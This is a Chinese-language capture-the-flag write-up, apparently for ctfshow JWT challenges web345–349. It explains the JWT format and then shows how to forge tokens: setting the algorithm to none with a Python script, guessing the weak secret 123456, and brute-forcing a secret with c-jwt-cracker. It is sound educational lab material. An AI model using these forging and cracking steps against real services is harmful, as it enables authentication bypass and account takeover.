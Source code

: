 ## JWT介绍

JWT 全称 JSON Web Token。

JWT由头部(Header)、有效载荷(Payload)、签名(Signature)三部分组成

头部(Header)包含alg(签名算法)和typ(令牌类型)示例如下：

```
{
"alg": "HS256",
"typ": "JWT"
}
```

payload示例：

```
{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
}
```

signature（签名）：

将头部和payload分别进行base64编码，用`.`连接起来组成字符串

将字符串通过header中声明的签名算法进行加盐secret组合加密，就构成了jwt的第三部分

三部分连接起来就是jwt了

## web345

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE3MDIwMTgzNjcsImV4cCI6MTcwMjAyNTU2NywibmJmIjoxNzAyMDE4MzY3LCJzdWIiOiJ1c2VyIiwianRpIjoiMDA5NDRkOWQzYmI3MjNhMDQ2YzI1NTdhMTYyNjZmNzIifV0
```

base64解码将user改成admin

## web346

得到cookie里的jwt，放到[jwt.io](https://jwt.io/)，发现有算法加密

利用jwt的一个漏洞，修改alg字段为none，这样的话后端就不会进行签名校验

```python
import jwt
Payload = {
  "iss": "admin",
  "iat": 1702018676,
  "exp": 1702025876,
  "nbf": 1702018676,
  "sub": "admin",
  "jti": "5d4d83011c4baefdbb5e34b9553dbb38"
}

headers = {
  "alg": "none",
  "typ": "JWT"
}
json_web_token = jwt.encode(payload=Payload,key="",algorithm="none",headers=headers)
print(json_web_token)
```

## web347

提示是弱口令，发现123456是密钥

![image-20231208160429129](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231208160429129.png)

## web348

用工具进行爆破[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)

![image-20231208160813615](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231208160813615.png)

密钥是aaab，然后跟上面一样

## web349

